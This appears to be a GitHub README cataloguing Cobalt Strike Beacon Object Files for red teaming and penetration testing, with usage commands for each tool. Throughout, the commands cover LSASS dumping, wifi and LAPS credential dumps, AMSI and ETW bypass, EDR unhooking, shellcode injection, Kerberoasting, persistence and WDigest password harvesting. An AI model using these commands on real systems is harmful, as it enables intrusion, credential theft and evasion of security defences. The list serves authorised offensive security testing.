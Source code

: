 # CobaltStrike BOF Collections
Useful Cobalt Strike Beacon Object Files (BOFs) used during red teaming and penetration testing engagements.

---
### Enumeration

- [**TrustedSec Situational Awareness BOF**](https://github.com/trustedsec/CS-Situational-Awareness-BOF)<br />
BOF that provides host enumeration and awarness commands which are more opsec friendly<br />
Example commands include:<br />
```
arp --> List arp tables
ipconfig --> Run ipconfig
ldapsearch [query]
listdns --> Pulls DNS cache
netuser [username] [opt: domain] --> Get info on user account
nslookup [hostname] --> Perform DNS query
tasklist --> Get local running processes
```

- [**Find Objects BOF**](https://github.com/outflanknl/FindObjects-BOF)<br />
Use direct system calls to enumerate processes for specific loaded modules (amsi.dll, clr.dll) or process handles (lsass.exe)<br />
Avoids fork&run<br />
```
FindModule amsi.dll
FindProcHandle lsass.exe
```

- [**BOF Collection**](https://github.com/rvrsh3ll/BOF_Collection)<br />
A set of BOFs useful for enumeration and exploitation. Examples include:<br />
```
inline-execute GetDomainInfo.o --> Get domain info from DC

inline-execute GetClipboard.o --> Prints any text on the user's clipboard

enumwifi --> Enumerate wifi connections
dumpwifi Wifi_Profile_Name --> Dump wifi cleartext credentials

bofportscan 192.168.1.10 3389 --> Port scanner

inline-execute RegistryPersistence.o Install --> Install registry persistence
inline-execute RegistryPersistence.o Remove --> Remove registry persistence
```

- [**whereami**](https://github.com/boku7/whereami)<br />
A "Where Am I" BOF which is a way to run the whoami.exe binary but in an opsec safe way by pulling the info from the current beacon process memory.<br />
Also pulls current environment variables.<br />
```whereami```

- [**RiccardoAncarani BOFs**](https://github.com/RiccardoAncarani/BOFs)<br />
A useful BOF collection to perform various tasks in a safer opsec way.
```
send_shellcode_via_pipe <pipe> <file> --> Send shellcode or any byte via a named pipe
cat <file> --> Read file, supports remote shares
wts_enum_remote_processes <host> --> Enumerate remote processes using WTS APIs
unhook <module>, unhook ntdll.dll --> Use direct syscalls to unhook APIs of a specific DLL (works only on 64-bit beacons)
```

- [**Outflank C2 Tool Collection**](https://github.com/outflanknl/C2-Tool-Collection)<br />
Great list of useful tools converted to BOFs for better opsec.<br />
Tools like add machine account, kerberoast, LAPS password dump, SMB info, LDAP AD spray, and more!
```
AddMachineAccount [*Computername] [Optional Password] --> Create new machine account - requires MachineAccountQuota to create new account
Domaininfo --> Enumerate AD domain
Lapsdump <computername> --> Dump LAPS passwowrds on remote systems within AD (requires elevated privileges on target)
Smbinfo <compuername> --> Get SMB info of remote system
Winver --> Shows the version of Windows that is running on the local system
```

- [**tgtdelegation**](https://github.com/sliverarmory/tgtdelegation)<br />
Kerberos ticket delegation - Obtain usable TGTs for the current user, does not require Admin privileges!<br />
Request TGT of active user in the current domain obtained from USERDNSDOMAIN environment variable, outputs TGT blobs to .kirbi and .ccache files<br />
```
tgtdelegation currentdomain default
[+] received output:
[+] tgtdelegation succeeded!

[+] Invoking tgtParse.py to obtain a usable .ccache!

[+] Successfully decrypted the AP-REQ response!

[+] Local path to usable .ccache: /home/loki@MARVEL.LOCAL.ccache
[+] Local path to usable .kirbi: /home/loki@MARVEL.LOCAL.kirbi
```
Now use .ccache or .kirbi files to load TGT into memory <br />
```export KRB5CCNAME=/home/loki@MARVEL.LOCAL.ccache``` <br />
Continue to use ticket in memory with other tooling of your choice! (i.e. Impacket's "**-k -no-pass**" command) <br />

---
### Executing .NET Assemblies

- [**InlineExecute-Assembly**](https://github.com/anthemtotheego/InlineExecute-Assembly)<br />
Perform .NET assembly execution of any .NET executable without any prior modifications required<br />
The BOF also supports several flags to disabling AMSI via in memory patching, disabling and restoring ETW via in memory patching, or customization of the CLR App Domain name to be created<br />
```inlineExecute-Assembly --dotnetassembly /home/Seatbelt.exe --assemblyargs AntiVirus AppLocker --etw --amsi --mailslot totallyLegitMailslot```

- [**inject-assembly**](https://github.com/kyleavery/inject-assembly)<br />
Another alternative .NET executable loader to inject an assembly into a running process<br />
```inject-assembly 0 /home/Rubeus.exe [args...]```

---
### Exploitation

- [**ajpc500 BOFs**](https://github.com/ajpc500/BOFs)<br />
A collection of **very** useful BOFs for various utilities including different techniques of shellcode injection with syscalls, process dumping (LSASS!), and patching ETW for better evasion.<br />
```
etw stop --> Patch etw
syscalls_inject <PID> <listener_name> / syscalls_shinject <PID> <path_to_bin> --> Syscalls shellcode injection
syscalls_spawn <listener> / syscalls_shspawn <path_to_bin> --> Spawn and syscalls injections
static_syscalls_apc_spawn <listener> / static_syscalls_apc_spawn <path_to_bin> --> Spawn and static syscalls shellcode njection (NtQueueApcThread)
static_syscalls_inject <PID> <listener_name> / static_syscalls_shinject <PID> <path_to_bin> --> Static syscalls shellcode injection (NtCreateThreadEx)
static_syscalls_dump <PID> [path_to_output] --> Process dump with syscalls (i.e. Dump LSASS!)
```

- [**MiniDumpWriteDump**](https://github.com/rookuu/BOFs)<br />
Uses static syscalls to dump a process such as LSASS to output file<br />
```minidumpwritedump <PID> <path_of_dmp?>```

- [**SilentLsassDump**](https://github.com/josephkingstone/BOFs-2/)<br />
Uses direct syscalls generated from [https://github.com/outflanknl/InlineWhispers](InlineWhispers)<br />
Dump the LSASS process via the silent process exit mechanism into the C:\Temp directory<br />
```silentLsassDump <LSASS PID>```

- [**Unhook BOF**](https://github.com/rsmudge/unhook-bof)<br />
Created by Raphael Mudge, this BOF will attempt to unhook userland APIs to bypass EDR<br />
Sort of the "hail mary" for attempting to unhook APIs<br />
 ```unhook```

- [**WdToggle**](https://github.com/outflanknl/WdToggle)<br />
Enables WDigest credential caching using direct system calls<br />
Bypasses Windows Credential Guard if enabled<br />
```
inline-execute WdToggle.o --> First enable WdDigest caching
logonpasswords --> Second, wait for users to login and then run Mimikatz to dump their newly cached cleartext passwords
```

- [**TrustedSec CS-Remote-OPs-BOF**](https://github.com/trustedsec/CS-Remote-OPs-BOF)<br />
Great repo of new BOFs from TrustedSec to follow up their SituationalAwareness BOFs.<br />
Includes dumping a process, decrypting Chrome keys, persistence techniques (registry, scheduled tasks, services), and more!
```
adcs_request --> Request an enrollment certificate
procdump --> Dump specified process to output file
reg_set --> Set/create a registry key
sc_create --> Create a new service
schtaskscreate --> Create a new scheduled task
setuserpass --> Set a users password
```

- [**Inject AMSI Bypass**](https://github.com/boku7/injectAmsiBypass)<br />
BOF that bypasses AMSI in a remote process with code injection<br />
```inject-amsiBypass <PID>```

- [**Inject ETW Bypass**](https://github.com/boku7/injectEtwBypass)<br />
Inject ETW Bypass into Remote Process via Syscalls<br />
```injectEtwBypass <PID>```

- [**Kerberoast BOF**](https://github.com/cube0x0/BofRoast)<br />
BOF for targeted Kerberoasting against input SPN to roast<br />
Returns TGS that you can pass to apreq2hashcat.py (provided in repo) to output the hashcat format<br />
```kerberoast SPN/HOSTNAME.domain.local```

- [**Koh**](https://github.com/GhostPack/Koh)<br />
GhostPack BOF that allows for the capture of user credentials via purposeful token/logon session leakage.<br />
Koh has a BOF client for capturing logon tokens in Cobalt Strike and a C# capture server to negotiate captured tokens for new logon sessions.<br />
```
# Koh client BOF
help koh
  koh list              - lists captured tokens
  koh groups LUID       - lists the group SIDs for a captured token
  koh filter list       - lists the group SIDs used for capture filtering
  koh filter add SID    - adds a group SID for capture filtering
  koh filter remove SID - removes a group SID from capture filtering
  koh filter reset      - resets the SID group capture filter
  koh impersonate LUID  - impersonates the captured token with the give LUID
  koh release all       - releases all captured tokens
  koh release LUID      - releases the captured token for the specified LUID
  koh exit              - signals the Koh server to exit

koh list --> List current logon sessions
koh impersonate <LUID> --> Impersonate a logon session from above output

ls \\dc.theshire.local\C$ --> Use the impersonated privileged logon session to interact with a target system
```

---
### Miscellaneous

- [**BOF Template**](https://github.com/Cobalt-Strike/bof_template)<br />
Used for creating your very own BOFs!

- [**BOF Hound**](https://github.com/fortalice/bofhound)<br />
An offline BloodHound ingestor and LDAP parser to be used with TrustedSec's ["ldapsearch"](https://github.com/trustedsec/CS-Situational-Awareness-BOF).<br />
Use ldapsearch in Cobalt Strike to gather data and then use bofhound on your CS logs to generate JSON files for importing into BloodHound.<br />
```bofhound -o /data/```

- [**Help Color**](https://github.com/outflanknl/HelpColor)<br />
Color helper Aggressor script for coloring "help" output based on command type and OPSEC<br />
```helpx```
